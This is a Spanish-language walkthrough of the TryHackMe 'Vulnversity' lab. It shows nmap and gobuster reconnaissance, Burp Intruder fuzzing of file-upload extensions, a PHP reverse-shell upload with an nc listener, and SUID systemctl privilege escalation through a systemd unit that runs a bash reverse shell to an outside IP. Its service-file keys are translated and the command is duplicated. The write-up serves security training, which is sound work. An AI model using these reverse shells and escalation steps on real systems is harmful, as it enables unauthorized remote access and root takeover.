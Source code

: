 # VULNVERSITY

Esta es la primera máquina que nos ponen en tryhackme para que te enseñen un poco a reconocerla y creo que siempre viene bien para recordar conceptos

# INICIO

Primero de todo simplemente nos dice que nos conectemos e iniciemos la máquina

![image](https://github.com/user-attachments/assets/2d437024-d123-4f63-8f36-833cee6b0b0c)

Posteriomente nos dicen como hacer reconocimiento y usar la red para escanear con Nmap.

## CONECTAR A LA MÁQUINA

## ESCANEAR LA MÁQUINA

```
nmap -sV 10.10.26.150
```

![image](https://github.com/user-attachments/assets/86dba4af-bec5-487d-b257-d627250c8587)


Nmap es gratis, código abierto y una herramienta poderosa para descubrir hosts y servicios que corren en la red. En nuestr ejemplo usamos nmap para escanear e identificar servicios de un puerto en especifico. Nmap tiene bastantes capacidades.

![image](https://github.com/user-attachments/assets/0ba06b68-cde3-43bb-b909-ec0d87e56630)

### PREGUNTAS

![image](https://github.com/user-attachments/assets/9b5bb26d-0916-4ac2-956f-08dba370934d)

Escanea la máquina, cuántos puertos abiertos tiene?

- 6

Que versión de squid proxy esta ejecutandose en la máquina?

- Squid http proxy 3.5.12

Cuantos puertos puede escanear Nmap si utiliza -p-400?

- 400

Cual es el sistema operativo más usado en la máquina?

- Ubuntu

Que puesto esta utilizando el servidor web para ejecutarse?

- 3333 (apache)

Cual es la extensión para que Nmap utilice el verbose?

- "-v"

## LOCALIZAR DIRECTORIOS USANDO GOBUSTER

Usar la herramienta "Gobuster" para descubrir directorios rapidamente, lo podemos encontrar en un directorio y utilizarlo en una shell.

Vamos a empezara escanear una red y los directorios ocultos.

Gobuster es una herramienta que utiliza las URL y hace fuerza bruta a los directorios y ficheros, subdominios por DNS y host virutales. 

si queremos descargar gobuster

```
sudo apt-get install gobuster
```

Para empezar necesitaremos uan wordlist para gobuster, normalmente lo tenemos en /usr/share/wordlists/

```
gobuster dir -u http://10.10.31.50:3333 -w
```

![image](https://github.com/user-attachments/assets/7e766d7d-7b4f-48cd-9aaf-a0fedd891597)


![image](https://github.com/user-attachments/assets/b3bd3d3b-9c6a-4623-8f76-990ed371e84b)

## COMPROMETER LA APLICACIÓN WEB

Ahora que tenemos el directorio donde se sube todo /internal/, podemos probar a subir un payload e ejecutarlo.

Podemos utilizar BurpSuite.

### USAR BURPSUITE

Vamos a usar "intruder" para customatizar atauqes utilizando estas extensiones.

- .php
- .php3
- .php4
- .php5
- .phtml

![image](https://github.com/user-attachments/assets/dd39e327-0426-4157-aae6-05927be85ee9)

Ahora ya con burpsuite configurado vamos a intercentar el trafico del navegador. Descargarnos el fichero de la consulta y capturarlo, mandarlo al intrude y clickar dentro de "Payloads" y seleccionar "Sniper" como modo de ataque

Clicar en la "posicion" y añadir el archivo de extension 

![image](https://github.com/user-attachments/assets/88548c6b-4b7b-4fe8-9c69-834142dca937)

Ahora podemos empezar a hacer el payload

## CONSEGUIR UNA REVERSE SHELL

Ahora vamos a hacer una shell reversa por PHP. funciona en el que el host remoto fuerza una conexión con tigo. Nosotros nos ponemos escuchandos, subimos y ejecutamos la shell. [RevShell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Para ganaer acceso remoto cogemos esa shell

1 - Lo editamos para cambiar la ip
2 - Lo renombramos a php-reverse-shell.phtml
3 - Iniciamos un listener "nc -lvnp 1234"
4 - Subimos la shell navegando a la ruta y lo ejecutamos

![image](https://github.com/user-attachments/assets/9c98f8ec-1c13-4707-be0a-8a215de8fa18)


## ESCALA DE PRIVILEGIOS

Ahora que hemos comprometido la máquina, nosotros necesitaremos escalar nuestros privilegios y ser root.

En Linux, el SUID(set owner userID upon execution) es un tipo de permiso particular del os ficheros. los SUID dan temporalmente permisos para que el usuario pueda ejecutar un programa o fichero con el permiso del creados.

Por ejemplo, un binario que quieras cambiar la contraseña con el SUID puede ejecutar /usr/bin/passwd. Esto es porque cambiar nuestra contraseña solo lo podria hacer un root.

![image](https://github.com/user-attachments/assets/d697b692-4220-4169-8c3d-5575498532ac)

Comando para buscar archivos SUID

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

![image](https://github.com/user-attachments/assets/543bfea8-c2db-42a2-bc73-8d4674325057)

Al descubrir la vulnerabilidad de systemctl que puede ejecutar o cambiar servicios, vamos a crear uno

```
[unidad] 
Descripción=root 

[Servicio] 
Tipo=simple 
Usuario=root 
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.6.114.60/5555 0>&1''bash -i >& /dev/tcp/10.6.114.60/5555 0>&1'

 [Instalar] 
WantedBy=multi-user.target
```

![image](https://github.com/user-attachments/assets/65d053a0-b2d3-4ea7-bd16-f911488ed9b5)

Conseguimos entrar y gg



